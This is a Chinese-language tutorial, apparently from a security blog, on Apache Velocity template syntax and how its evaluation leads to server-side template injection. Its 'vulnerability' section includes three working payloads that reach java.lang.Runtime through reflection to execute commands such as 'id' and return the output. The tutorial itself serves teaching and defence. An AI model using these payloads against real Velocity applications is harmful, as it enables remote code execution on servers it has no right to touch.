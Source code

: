 ### Velocity 基础

#### 模板页面

```html
<html>
<body>
Hello $customer.Name!
<table>
#foreach( $mud in $mudsOnSpecial )
#if ( $customer.hasPurchased($mud) )
<tr>
<td>
$flogger.getPromo( $mud )
</td>
</tr>
#end
#end
</table>
</body>
</html>
```

* Velocity模板语言（VTL，Velocity Template Language）：VTL 使用引用的方式将动态内容嵌入网站，所有 VTL 语句一样，以 # 字符开头并包含一个指令
* 变量：在 Velocity 模板语言中，变量使用 $ 符号来引用，例如 $variable_name 。变量可以引用 Java 对象， Map 中的键值对，以及其他的数据类型。比如上面示例模板文件中的 $mud ，可以获取通过上下文以及 后端传递获取 $mud 变量值。
* 方法：方法在 Java 代码中被定义，并且能够执行一些有用的操作。方法是由一个$字符开头的 VTL 标识符和 VTL 方法体组成的引用。VTL 方法体由一个 VTL 标识符、一个左括号字符(、一个可选参数列表、一个 右括号字符)组成。以下是VTL中有效的方法引用示例：

```java
$customer.getAddress()
$purchase.getTotal()
$page.setTitle( "My Home Page" )
$person.setAttributes( ["Strange", "Weird", "Excited"] )
```

* set指令：\#set 指令用于设置引用的值。一个值可以被赋给一个变量引用或一个属性引用，并且这发生在括号中， 就像下面所示的示例一样

```java
#set( $primate = "monkey" )
#set( $customer.Behavior = $primate )
```

  赋值语句的左侧必须是一个变量引用或一个属性引用。右侧可以是以下类型之一：变量引用 字符串字面量 属性引用 方法引用 数字字面量 ArrayList Map

```java
#set( $monkey = $bill ) ## variable reference
#set( $monkey.Friend = "monica" ) ## string literal
#set( $monkey.Blame = $whitehouse.Leak ) ## property reference
#set( $monkey.Plan = $spindoctor.weave($web) ) ## method reference
#set( $monkey.Number = 123 ) ##number literal
#set( $monkey.Say = ["Not", $my, "fault"] ) ## ArrayList
#set( $monkey.Map = {"banana" : "good", "roast beef" : "bad"}) ## Map

```

#### 后端与模板交互

* 按模板路径取得模板，传入参数，使用template.merge(context, writer);触发payload

```java
import org.apache.velocity.Template;
import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.VelocityEngine;

import java.io.StringWriter;

public class VelocityExample {

    public static void main(String[] args) {
        // 初始化Velocity引擎
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.init();

        // 获取Velocity模板
        Template template = velocityEngine.getTemplate("path/to/template.vm");

        // 准备数据模型
        VelocityContext context = new VelocityContext();
        context.put("name", "John Doe");

        // 填充模板并获取生成的输出
        StringWriter writer = new StringWriter();
        template.merge(context, writer);
        String output = writer.toString();

        // 打印生成的HTML输出
        System.out.println(output);
    }
}
```

* 后端代码生成 模板字符串，velocityEngine.evaluate(context, writer, "logTag", templateString);触发payload

```java
import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.VelocityEngine;

import java.io.StringWriter;

public class VelocityEvaluateExample {

    public static void main(String[] args) {
        // 初始化Velocity引擎
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.init();

        // 准备数据模型
        VelocityContext context = new VelocityContext();
        context.put("name", "John Doe");

        // 模板字符串
        String templateString = "<h1>Hello, $name!</h1>";

        // 评估模板字符串
        StringWriter writer = new StringWriter();
        velocityEngine.evaluate(context, writer, "logTag", templateString);

        // 获取生成的输出
        String output = writer.toString();

        // 打印生成的HTML输出
        System.out.println(output);
    }
}
```

### 漏洞产生

#### set指令攻击语句

```java
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",nu
ll).invoke(null,null).exec("calc")
```

```java
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```java
#set ($e="exp")
#set
($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invok
e(null,null).exec($cmd))
#set
($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").in
voke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor =
$sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

#### payload的传入

* template.merge需要引用的模板我们可控，在可控模板中插入攻击语句即可
* velocityEngine.evaluate需要我们从与templateString对应的参数传入payload

### 漏洞修复

* Velocity 小于等于 2.2 版本存在模板注入漏洞
* 更换高版本即可